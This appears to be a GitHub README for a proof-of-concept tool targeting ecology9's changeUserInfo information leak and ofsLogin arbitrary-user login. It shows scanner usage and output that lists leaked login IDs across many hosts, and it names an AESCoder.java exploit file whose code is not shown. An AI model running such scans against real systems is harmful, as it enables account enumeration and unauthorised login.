

# ecology9-ofsLogin-poc
ecology9 changeUserInfo信息泄漏(☑️)及ofsLogin任意用户登录(☑️)

## poc
- `-h`
```bash
$ python3 poc.py -h
usage: poc.py [-h] [-u URL] [-U URLS]

ecology9 changeUserInfo信息泄漏检测

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     url
  -U URLS, --urls URLS  urls.txt
```

- `-u https://1.1.1.1/`

```bash
$ python3 poc.py -u https://1.1.1.1/
[+] 1.1.1.1, 发现loginId: ['admin', 'test']
```

- `-U urls.txt`

```bash
$ python3 poc.py -U urls.txt
[+] 1.1.1.1, 发现loginId: ['admin', 'test']
[-] 2.2.2.2, 未发现发现loginId或不存在漏洞！
[-] 3.3.3.3, 未发现发现loginId或不存在漏洞！
[-] 4.4.4.4, 未发现发现loginId或不存在漏洞！
[-] 5.5.5.5, 未发现发现loginId或不存在漏洞！
```

## exp
- `AESCoder.java`


